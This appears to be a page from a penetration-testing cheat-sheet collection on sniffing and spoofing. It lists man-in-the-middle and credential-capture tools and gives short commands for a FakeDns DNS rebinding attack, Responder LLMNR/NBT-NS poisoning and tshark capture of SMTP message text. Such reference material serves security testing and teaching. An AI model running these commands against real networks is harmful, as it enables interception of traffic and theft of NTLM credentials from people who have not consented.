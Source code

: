 # Sniffing & Spoofing

- [Resources](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/09_sniffing_%26_spoofing.md#Resources)

## Table of Contents

- [FakeDns](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/09_sniffing_%26_spoofing.md#FakeDns)
- [Responder](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/09_sniffing_%26_spoofing.md#Responder)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| mDNS | A mDNS sniffer and interpreter. | https://github.com/eldraco/Sapito |
| mitm6 | mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. | https://github.com/dirkjanm/mitm6 |
| mitmproxy | mitmproxy is an interactive, SSL/TLS-capable intercepting proxy with a console interface for HTTP/1, HTTP/2, and WebSockets. | https://github.com/mitmproxy/mitmproxy |
| ntlm_theft | A tool for generating multiple types of NTLMv2 hash theft files. | https://github.com/Greenwolf/ntlm_theft |
| Responder | IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay. | https://github.com/lgandx/Responder |
| SSH-MITM | ssh mitm server for security audits supporting public key authentication, session hijacking and file manipulation | https://github.com/ssh-mitm/ssh-mitm |

## FakeDns

> https://github.com/Crypt0s/FakeDns

### DNS Rebind Attack

```c
$ cat fake.conf
A <DOMAIN> 127.0.0.1 1%<LHOST>
```

#### Start the Server

```c
$ sudo python3 fakedns.py -c fake.conf --rebind
```

#### Test

```c
nslookup > server <LHOST>
Default server: <LHOST>
Address: <LHOST>#53
> <FAKE_DOMAIN>
Server:         <LHOST>
Address:        <LHOST>#53

Name:   <FAKE_DOMAIN>
Address: 127.0.0.1
*## server can't find <FAKE_DOMAIN>: NXDOMAIN
> <FAKE_DOMAIN>
Server:         <LHOST>
Address:        <LHOST>#53

Name:   <FAKE_DOMAIN>
Address: <LHOST>
*## server can't find <FAKE_DOMAIN>: NXDOMAIN
>
```

## Responder

> https://github.com/lgandx/Responder

```c
$ sudo responder -I <INTERFACE>
```

## tshark

### Capturing SMTP Traffic

```c
$ tshark -i <INTERFACE> -Y 'smtp.data.fragments' -T fields -e 'text'
```
